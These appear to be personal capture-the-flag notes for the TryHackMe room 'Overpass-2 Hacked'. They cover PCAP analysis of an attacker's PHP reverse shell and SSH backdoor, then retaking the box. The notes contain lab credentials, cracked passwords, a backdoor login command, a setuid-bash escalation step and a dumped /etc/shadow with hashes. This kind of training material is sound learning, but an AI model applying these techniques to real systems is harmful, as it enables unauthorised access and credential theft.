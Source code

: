 # THM: Overpass-2 Hacked
# OS: Linux (Easy)

----

[NOTES]
- The attacker used `/development/upload.php` to upload a php reverse shell.
- Found creds (internal)
  `james:whenevernoteartinstant`
- James can run everything as sudo
- The attacker has an ssh backdoor at 0.0.0.0:2222
  `User: james`
  `Pass: november16`
  `File: /home/james/.ssh/id_rsa`
- Cracked 4/5 passwords from /etc/shadow
  secret12
  secuirty3
  1qaz2wsx
  abcd123

Usernames:
  - System:
    - james
    - paradox
    - szymex
    - muirland
    
Creds:
  - System:
    - james:whenevernoteartinstant
    - paradox:secret12
    - szymex:secuirty3
    - bee:1qaz2wsx
    - muirland:abcd123

----

[PCAP Analysis]

- Extracted files from PCAP:
  index.html
  'upload(1).php'
  upload.php ----> Has the attackers payload
  uploads
- Found what the attacker did from his shell at pcap line 31 by following the tcp stream.
- The attacker viewed `/etc/shadow`
- The attacker installed an ssh backdoor:
  [NinjaJc01-Backdoor](https://github.com/NinjaJc01/ssh-backdoor)

----

## Foothold

- Got access by using the backdoor on port 2222
  Creds | james:november16
  ```
  ssh -oHostKeyAlgorithms=+ssh-rsa james@$ip -p 2222
  ```

## Privesc

- They created a `.setuid_bash` at james' home directory
  ```
  ./.setuid_bash -p
  ```

----

[LOOT]

```/etc/shadow
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```
